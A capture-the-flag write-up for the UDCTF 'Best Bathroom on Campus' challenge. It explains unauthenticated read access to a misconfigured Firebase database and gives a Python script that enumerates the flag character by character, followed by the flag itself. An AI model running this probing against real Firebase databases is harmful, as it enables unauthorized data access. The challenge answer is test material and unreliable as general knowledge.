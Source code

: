 # Best Bathroom on Campus

## Description
![](./bestbathroom.png)

https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json

Author: Dr.Doctah

(Tried 'em all)

## Solution
This is how the respond of the server if we access the link.

![Firebase](./1.png)

From the URL or link of the challenge itself, we know that this challenge using Firebase.
Did you know that in Firebase unauthorized user could read or even write the data? 
Yes, it is if there's misconfiguration that will make it vulnerable to read or write access from unauthorized user.
This misconfiguration often happen in development phase and sometimes the developer forgot to change the configuration in production environment.
From this [link](https://www.acunetix.com/vulnerabilities/web/firebase-database-accessible-without-authentication/) we know that Firebase database could have this vulnerability and from this [link](https://firebase.google.com/docs/rules/insecure-rules) there are rules to avoid and recommended rules to enhance security.

From the image in the description of this challenge, the author seems query each character to make sure the flag is correct.
If the response is `true` then that character is part of the flag and if the response is `null` then the character is not a part of flag.
Using this Python code we can query each character and find the flag.

```py
import requests
import string

def create_request(url):
	res = requests.get(url, headers={"Content-Type":"application/json"})
	if res.status_code == 200:
		return res.text
	else:
		return None

if __name__=="__main__":
	base_url = 'https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{'
	chars = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-.:;?@[\]^_`{|}~"""
	result = ''
	#url = f'{base_url}.json'
	#response = create_request(url)
	
	while '}' not in result: 
		for i in range(0, len(chars)):
			url = f'{base_url}{chars[i]}.json'
			response = create_request(url)
			print(url)
			if response == 'true':
				result += chars[i]
				base_url += chars[i] 
				print(result)
				if '}' in str(result):
					break
			else:
				continue
			#break
	print("UDCTF{" + result)
```

After running the code we will get the flag.

## Flag
`UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}`